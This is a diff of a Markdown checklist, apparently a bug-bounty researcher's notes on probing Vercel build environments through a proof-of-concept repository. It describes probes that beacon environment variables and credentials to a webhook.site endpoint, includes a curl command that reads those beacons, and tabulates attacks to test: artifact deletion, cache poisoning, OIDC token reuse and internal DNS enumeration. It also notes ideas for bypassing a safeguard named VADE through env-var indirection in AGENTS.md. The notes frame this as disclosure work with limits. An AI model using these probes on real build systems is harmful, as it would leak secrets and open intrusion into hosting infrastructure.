

Before and after one commit to 4nkittt/vercel-agent-poc-1, a Markdown page: WAKE_UP_CHECKLIST.md, the part around one of its changes. Shown at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: update wake-up checklist with v15-v17 history, v17 pending results table, OIDC internal auth as potential critical finding

````diff
--- a/WAKE_UP_CHECKLIST.md
+++ b/WAKE_UP_CHECKLIST.md
@@ -70,33 +74,62 @@ Probes v12/v13 test 169.254.169.254 (AWS IMDS) + IAM role listing.
 
-### Credential Sweep (probe v13)
+Probe v17 sends:
+1. **Early beacon** (marker: v17-early) — sent in first 2 seconds with just env/crypto data. Guaranteed to arrive.
+2. **Full beacon** (marker: v17) — sent after all network probes. May be delayed.
 
-`credentialSweep` field lists ALL *TOKEN/*KEY/*SECRET env vars beyond known ones.
+### Check webhook for v17-early beacon first:
 
-**Check webhook beacons for `"credentialSweep"` field:**
-- Empty array `[]` → no unknown credentials
-- Any item like `AWS_ACCESS_KEY_ID=present(...)` or `NPM_TOKEN=present(...)` → new finding
+```
+curl -s "https://webhook.site/token/1a236970-1c56-4d75-8ad7-c395c8a23590/requests?sorting=newest&per_page=10" | python3 -c "
+import sys,json
+d=json.load(sys.stdin)
+for x in d['data']:
+    b=json.loads(x.get('content','{}'))
+    m=b.get('marker','')
+    if 'v17' in m: print(m, b.get('vercelCreds',{}).keys())
+"
+```
 
-### path0 Git Config (probe BG-v12)
+### New test results to analyze (v17 full beacon):
 
-`additionalCreds.path0GitConfig` reads `/vercel/path0/.git/config`.
+| Section | What to look for | Impact if positive |
+|---------|-----------------|-------------------|
+| `artifactsToken.deleteStatus` | 200/204 = DELETE works | HIGH: artifact sabotage (delete legitimate builds) |
+| `artifactsToken.listStatus` | 200 = can list all team artifacts | MEDIUM: build history enumeration |
+| `artifactsToken.getEventsStatus` | 200 + data = can enumerate past hashes | MEDIUM: hash enumeration |
+| `oidcInternalAuth.*` | Any 200 → OIDC token accepted by Vercel APIs | CRITICAL: internal API access from build |
+| `cacheJwtInternalAuth.*` | Any 200 → cache JWT accepted elsewhere | HIGH: unexpected auth scope |
+| `cacheRevalidate.*` | 200 for revalidate/delete-tag | MEDIUM: cache eviction DoS |
+| `dnsEnum.apiIad1` | Private IP (10.x or 172.x) → same VPC | Could enable direct internal API access |
+| `dnsEnum.vercelInternal` | Any resolution → internal zone exists | Infrastructure mapping |
+| `artifactsQuery.queryStatus` | 200 = QUERY endpoint works | LOW: hash presence enumeration |
+| `activeTcp.ssEstablished` | Any internal IPs in connections | Infrastructure mapping |
+| `varTask.listing` | Vercel CLI version, config files | Intelligence |
+| `gitCredentialStore.connectGuardLog` | Log file path found | Could reveal all outbound HTTP in build |
 
-**Check for `https://x-access-token:gh[sp]_...@github.com`** in recent beacons.
-If present → GitHub token embedded in git config for deployment builds (same issue as Agent Code Reviews, but in DEPLOYMENT build too).
+### If oidcInternalAuth returns 200:
+→ Add as NEW Finding 4 (CVSS 8.5+ Critical)
+→ Document which endpoints accept OIDC token
+→ STOP: do not use the access, report immediately
 
-### Network Topology (probe v12)
+### If artifactsToken.deleteStatus = 200/204:
+→ Add to REPORT_DRAFT.md Impact section under "Turborepo Remote Cache Poisoning"
+→ "Additionally, VERCEL_ARTIFACTS_TOKEN can DELETE artifacts (HTTP 2xx), enabling cache sabotage..."
 
-`networkTopology.{arpTable, routes, resolvConf, hostsFile}` in beacons.
-- arpTable with multiple IPs → other VMs on same L2 segment → isolation finding
-- resolvConf with internal IPs → reveals Vercel/AWS internal DNS resolver addresses
+---
 
-### Cross-Project Cache Scope Test (probe v14 — RUNNING NOW)
+## WHAT WAS EXPLORED (DON'T REPEAT)
 
-`crossProjectCacheTest` tests if cache key scope is enforced server-side.
-- `wrongProjRead` returns 200 with data → cross-project cache read is POSSIBLE → new HIGH severity finding
-- `wrongProjRead` returns 403 → scope enforced → not a finding
+- v15/v16: NEVER beaconed — probe timed out due to grep -r /var/task/ hanging (fixed in v17)
+- IMDS 169.254.169.254: Reachable (IMDSv2 token obtained) but all metadata returns 404 (Firecracker mock IMDS)
+- Cross-project suspense cache scope: ENFORCED → 404 for wrong projectId (not a finding)
+- VERCEL_DEPLOYMENT_KEY: All internal API paths return 404 (not a valid API token)
+- Spaces API (API_SPACES_RUN_UPLOAD): All 404 — endpoint not found
+- path0/.git/config: No auth token in deployment builds (Finding 2 specific to Agent Reviews)
+- VADE bypass ideas:
+  - Env var indirection (AGENTS.md references $RELEASE_HOOK set in Vercel dashboard — VADE can't see env vars)
+  - Could be a Finding 2 escalation path
 
-### Spaces API (probe BG-v12)
+---
 
-`spacesProbe` tests the `API_SPACES_RUN_UPLOAD` capability.
-- Any 200 response → Spaces endpoint accessible → explore what it affects
+## SECURITY CONSTRAINTS (STILL IN EFFECT)
 
````
Also changed, not shown: other parts of WAKE_UP_CHECKLIST.md (+37 -49 lines).
